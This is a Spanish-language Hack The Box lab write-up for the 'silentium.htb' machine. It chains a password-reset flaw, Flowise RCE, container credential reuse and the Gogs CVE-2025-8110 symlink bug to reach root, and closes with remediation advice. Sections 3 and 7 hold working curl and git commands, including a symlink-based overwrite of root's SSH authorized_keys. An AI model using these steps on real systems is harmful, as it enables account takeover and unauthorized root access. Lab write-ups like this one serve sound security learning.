# Silence — Informe técnico de explotación (silentium.htb)

> Este informe documenta la resolución de una máquina de la plataforma Hack The Box con fines educativos. El dominio `silentium.htb` y las credenciales mencionadas corresponden a un laboratorio de entrenamiento aislado, no a un sistema en producción.

## Resumen ejecutivo

| | |
|---|---|
| **Objetivo** | `silentium.htb` |
| **Sistema operativo** | Ubuntu 24.04.4 LTS (kernel 6.8.0-107-generic) |
| **Servicios expuestos** | 22/tcp — OpenSSH 9.6p1 (Ubuntu) · 80/tcp — nginx 1.24.0 (Ubuntu) |
| **Vector de acceso inicial** | Toma de control de la cuenta `ben` mediante abuso del flujo de recuperación de contraseña, seguida de ejecución remota de código en Flowise 3.0.5 |
| **Vector de escalada** | Fuga de credenciales tras un escape de contenedor Docker, y posteriormente CVE-2025-8110 (Gogs 0.13.3) para escribir en `/root/.ssh/authorized_keys` |
| **Resultado** | Acceso administrativo (root) vía SSH |

El compromiso se desarrolló en cuatro etapas: reconocimiento y enumeración web, toma de control de una cuenta de usuario mediante un fallo en la lógica de autenticación, obtención de ejecución remota de código a través de una vulnerabilidad conocida en Flowise, y finalmente escalada de privilegios explotando una vulnerabilidad de seguimiento de symlinks en Gogs.

## 1. Reconocimiento

El primer paso fue un escaneo de puertos con Nmap para identificar los servicios expuestos por el objetivo.


Con los puertos abiertos identificados, se ejecutó un escaneo de versión (`-sCV`) para determinar los servicios y sus versiones exactas. El resultado confirmó OpenSSH 9.6p1 sobre Ubuntu en el puerto 22 y nginx 1.24.0 en el puerto 80, además de revelar que el servidor redirige a `silentium.htb`.


Se investigó brevemente si la versión de OpenSSH reportada tenía alguna vulnerabilidad conocida y explotable.

  


No se identificó ninguna vía de explotación directa sobre SSH, por lo que el análisis se centró en el servicio web.

## 2. Enumeración web

Al acceder por IP, el servidor redirigía a `silentium.htb`, por lo que se añadió el dominio al archivo `/etc/hosts` local para resolverlo correctamente.

  


Una revisión inicial de la página permitió identificar referencias a distintos nombres de usuario, presumiblemente correspondientes a cuentas válidas en el sistema.


Se ejecutó un escaneo de directorios con `gobuster` sobre la raíz del sitio, sin resultados relevantes más allá de una redirección a `/assets`.



Dado que el escaneo de rutas no aportó información adicional, se inspeccionó el código fuente de la página (Ctrl+U) en busca de archivos JavaScript que pudieran revelar más superficie de ataque.


La inspección del código fuente tampoco arrojó resultados directos, por lo que se consultó a DeepSeek sobre posibles siguientes pasos. La sugerencia fue enumerar subdominios, lo cual se hizo con `gobuster` en modo VHOST, identificando el subdominio `staging.silentium.htb`.



El nuevo subdominio se añadió también a `/etc/hosts`.



Al explorar `staging.silentium.htb` se encontró un formulario de inicio de sesión, además de varios archivos `.js` de interés que fueron revisados en detalle.

  
  


Entre los hallazgos, se confirmó la existencia del usuario `ben`.


Una petición contra el endpoint de autenticación devolvió un código HTTP 401 para ese usuario, lo que confirmó que la cuenta existía y que el siguiente objetivo era obtener sus credenciales.



## 3. Toma de control de la cuenta `ben`

Entre los archivos JavaScript revisados se encontró el componente del flujo de recuperación de contraseña (`ForgotPassword`). Su análisis reveló que el frontend consume un endpoint de la API (`authApi.forgotPassword`) enviando únicamente el correo del usuario, y que la API responde con la información necesaria para completar el restablecimiento:

```jsx
import React, { useState, useEffect } from "react";
import { Link } from "react-router-dom";

// Componentes visuales (Material-UI / librería base)
import {
  useTheme,
  Stack,
  Typography,
  Button,
  Box,
  Card as MainCard,
} from "@mui/material";

// Componentes e iconos del proyecto
import { Input } from "./Input-CyGdJmMA.js";
import { BackdropLoader } from "./BackdropLoader-BoiYf2ra.js";
import {
  Alert,
  IconExclamationCircle,
} from "./IconExclamationCircle-CpN1RXoF.js";
import { IconCircleCheck } from "./IconCircleCheck-BQawbm75.js";

// Hooks y capa de API
import { useLicense } from "./hooks/useLicense";
import { useApi } from "./hooks/useApi";
import { authApi } from "./api";

const inputConfig = {
  label: "Username",
  name: "username",
  type: "email",
  placeholder: "user@company.com",
};

const ForgotPassword = () => {
  const theme = useTheme();
  const { isEnterpriseLicensed } = useLicense();

  // Estados del formulario y feedback
  const [email, setEmail] = useState("");
  const [loading, setLoading] = useState(false);
  const [alert, setAlert] = useState(null); // { type: "error" | "success", msg: string }

  // Hook de llamada a la API
  const forgotPasswordApi = useApi(authApi.forgotPassword);

  const handleSubmit = async (e) => {
    e.preventDefault();
    setLoading(true);
    await forgotPasswordApi.request({ user: { email } });
  };

  // Manejo de errores
  useEffect(() => {
    if (forgotPasswordApi.error) {
      const errorPayload = forgotPasswordApi.error.response?.data;
      const message =
        typeof errorPayload === "object"
          ? errorPayload.message
          : errorPayload;

      setAlert({
        type: "error",
        msg: message ?? "Failed to send instructions, please contact your administrator.",
      });
      setLoading(false);
    }
  }, [forgotPasswordApi.error]);

  // Manejo de éxito
  useEffect(() => {
    if (forgotPasswordApi.data) {
      setAlert({
        type: "success",
        msg: "Password reset instructions sent to the email.",
      });
      setLoading(false);
    }
  }, [forgotPasswordApi.data]);

  return (
    <MainCard>
      <Stack flexDirection="column" sx={{ width: "480px", gap: 3 }}>
        {/* Notificación de Error */}
        {alert?.type === "error" && (
          <Alert
            icon={<IconExclamationCircle />}
            variant="filled"
            severity="error"
          >
            {alert.msg}
          </Alert>
        )}

        {/* Notificación de Éxito */}
        {alert?.type === "success" && (
          <Alert
            icon={<IconCircleCheck />}
            variant="filled"
            severity="success"
          >
            {alert.msg}
          </Alert>
        )}

        {/* Título y enlace de navegación */}
        <Stack sx={{ gap: 1 }}>
          <Typography variant="h1">Forgot Password?</Typography>
          <Typography variant="body2" sx={{ color: theme.palette.grey[600] }}>
            Have a reset password code?{" "}
            <Link
              to="/reset-password"
              style={{ color: theme.palette.primary.main }}
            >
              Change your password here
            </Link>
            .
          </Typography>
        </Stack>

        {/* Formulario */}
        <form onSubmit={handleSubmit}>
          <Stack sx={{ width: "100%", gap: 2 }}>
            <Box>
              <div style={{ display: "flex", flexDirection: "row" }}>
                <Typography>
                  Email<span style={{ color: "red" }}> *</span>
                </Typography>
                <div style={{ flexGrow: 1 }} />
              </div>

              <Input
                inputParam={inputConfig}
                value={email}
                onChange={(val) => setEmail(val)}
                showDialog={false}
              />

              {isEnterpriseLicensed && (
                <Typography variant="caption">
                  <i>
                    If you forgot the email you used for signing up, please
                    contact your administrator.
                  </i>
                </Typography>
              )}
            </Box>

            <Button
              type="submit"
              variant="contained"
              disabled={!email}
              style={{ borderRadius: 12, height: 40, marginRight: 5 }}
            >
              Send Reset Password Instructions
            </Button>
          </Stack>
        </form>

        <BackdropLoader open={loading} />
      </Stack>
    </MainCard>
  );
};

export default ForgotPassword;
```

En resumen, el componente arma la petición `POST` con el correo del usuario, muestra un overlay de carga mientras espera la respuesta y renderiza un aviso de éxito o error según el resultado devuelto por la API.

A partir de este análisis, se reprodujo la llamada directamente contra la API para obtener el token de restablecimiento por línea de comandos:

```bash
curl -X POST http://localhost:3000/api/v1/forgot-password \
  -H "Content-Type: application/json" \
  -d '{"user": {"email": "usuario@ejemplo.com"}}'
```

Sabiendo que `ben` era una cuenta válida, la petición se dirigió contra ese usuario:

```bash
curl -X POST http://staging.silentium.htb/api/v1/account/forgot-password \
  -H "Content-Type: application/json" \
  -d '{"user":{"email":"ben@silentium.htb"}}'
```



La API no verificó la titularidad del correo antes de devolver el material necesario para completar el restablecimiento, lo que permitió cambiar la contraseña de `ben` sin necesidad de acceder a su bandeja de entrada. Con la nueva contraseña se inició sesión con éxito.


## 4. Acceso inicial: explotación de Flowise

Ya autenticado como `ben`, se accedió a la sección de API Keys de la aplicación.


Sin certeza sobre el uso de esa información, se consultó a DeepSeek sobre las posibles vías de explotación disponibles a partir de ahí.



La pista más aprovechable fue el concepto de **bearer token** (o token de portador): una cadena de caracteres cifrada o aleatoria que otorga acceso a recursos protegidos en una API o servidor, bajo la premisa de que quien la posee recibe la autorización asociada.



La enumeración de la aplicación permitió identificar que el backend correspondía a **Flowise 3.0.5**, una plataforma open-source para construir flujos de trabajo con LLMs. Esta versión está afectada por una vulnerabilidad de ejecución remota de código documentada públicamente en [GHSA-3gcm-f6qx-ff7p](https://github.com/advisories/GHSA-3gcm-f6qx-ff7p), explotable mediante el endpoint de carga de nodos personalizados (`customMCP`), que evalúa código JavaScript suministrado por el usuario sin la debida sanitización.

Aprovechando el bearer token obtenido y esta vulnerabilidad, se envió un payload que ejecuta un comando del sistema para abrir una reverse shell:


La explotación fue exitosa y se obtuvo ejecución de comandos sobre el host.

## 5. Escape de contenedor y movimiento lateral

Tras estabilizar el acceso, se determinó que la shell obtenida se ejecutaba dentro de un contenedor Docker y no directamente sobre el sistema operativo del host.



Durante la exploración del sistema de archivos del contenedor se había pasado por alto, en un primer momento, una vía de acceso hacia la cuenta local `ben` que resultó evidente al revisar el histórico con más detenimiento.


Concretamente, un archivo de variables de entorno de la aplicación Flowise expuesto dentro del contenedor contenía credenciales de un servicio SMTP interno, entre otros secretos de configuración.



Estas credenciales resultaron reutilizables para autenticarse como el usuario `ben` a nivel de sistema, lo que permitió obtener una shell interactiva fuera del contenedor, ya sobre el host.



---

## 6. Descubrimiento de un vhost adicional: Gogs

Con acceso como `ben` sobre el host, la búsqueda de un vector de escalada de privilegios se estancó durante un buen tiempo en la enumeración de virtual hosts adicionales. Consultando la guía oficial de Hack The Box se confirmó la existencia de un dominio adicional no descubierto previamente.


Ese dominio correspondía a una instancia de **Gogs**, un servicio self-hosted de control de versiones Git.



Sin experiencia previa con Gogs, fue necesario investigar su funcionamiento antes de continuar. Se localizó la versión exacta desplegada apoyándose en un writeup de referencia:



La versión identificada fue **Gogs 0.13.3**, afectada por **CVE-2025-8110**: una vulnerabilidad que permite, mediante la API de administración de contenido de repositorios, seguir symlinks y escribir contenido arbitrario en rutas del sistema de archivos fuera del repositorio, sujeto a los permisos del usuario bajo el que corre el servicio.

## 7. Escalada de privilegios: CVE-2025-8110

La explotación consistió en los siguientes pasos:

**Paso 1 — Crear un repositorio y un symlink apuntando al archivo objetivo.**


```bash
git clone http://staging-v2-code.dev.silentium.htb/martin1/test.git
cd test
# Creamos el symlink apuntando al authorized_keys de root
ln -s /root/.ssh/authorized_keys overwrite_me
# Configuración y commit
git config user.email "martin@martinn.com"
git config user.name "martin1"
```

**Paso 2 — Confirmar el symlink en el repositorio remoto.**



```bash
git add overwrite_me
git commit -m "symlink abuse"
# Push (con force por el README del remoto)
git push -f origin master
# Obtenemos el SHA del blob
git ls-tree HEAD overwrite_me
# 120000 blob 9c87fc525b63ebd989fa409533d3be1b295d6ec3    overwrite_me
```

**Paso 3 — Generar un token de API de Gogs y un par de claves SSH propio.**

1. **Token de API** en Gogs: `Settings → Applications → Generate New Token`.
2. **Clave SSH**:

   ```bash
   ssh-keygen -t ed25519 -f ~/.ssh/id_gogs -N ""
   echo -n "$(cat ~/.ssh/id_gogs.pub)" | base64 -w0
   ```

**Paso 4 — Escribir la clave pública en `/root/.ssh/authorized_keys` a través del symlink.**

Usando la API de contenido de repositorios de Gogs, que sigue el symlink creado en el paso 1, se sobrescribió el archivo apuntado con la clave pública generada, codificada en Base64:

```bash
curl -X PUT \
  -H "Authorization: token <TU_TOKEN>" \
  -H "Content-Type: application/json" \
  "http://staging-v2-code.dev.silentium.htb/api/v1/repos/martin1/test/contents/overwrite_me?ref=master" \
  -d '{
    "message": "overwrite via symlink",
    "content": "<BASE64_DE_TU_CLAVE_PUBLICA>",
    "sha": "9c87fc525b63ebd989fa409533d3be1b295d6ec3"
  }'
```

**Paso 5 — Autenticarse por SSH con la clave privada correspondiente.**

Dado que el servicio de Gogs corría con privilegios suficientes para escribir en `/root/.ssh/`, la clave pública quedó registrada como autorizada para el usuario `root`, permitiendo el acceso administrativo completo por SSH.

  


## Conclusión

El compromiso de `silentium.htb` combinó tres categorías de fallos distintas: un defecto de lógica de negocio en el flujo de recuperación de contraseña que permitió la toma de cuentas sin acceso al correo, una vulnerabilidad de ejecución remota de código conocida y sin parchear en Flowise, y una vulnerabilidad de seguimiento de symlinks en Gogs que permitió escritura arbitraria de archivos con impacto directo en la cuenta `root`. Un factor agravante adicional fue la exposición de credenciales sensibles (SMTP) dentro de las variables de entorno de un contenedor accesible tras la explotación inicial, lo que facilitó el movimiento lateral hacia una cuenta legítima del sistema.

Como recomendaciones generales: validar la titularidad del correo antes de emitir tokens de restablecimiento, mantener actualizados los servicios expuestos (especialmente plataformas de terceros como Flowise y Gogs), evitar almacenar secretos en variables de entorno accesibles desde dentro de contenedores sin control de acceso adicional, y restringir los permisos del servicio Git para que no pueda escribir fuera del árbol de repositorios que gestiona.
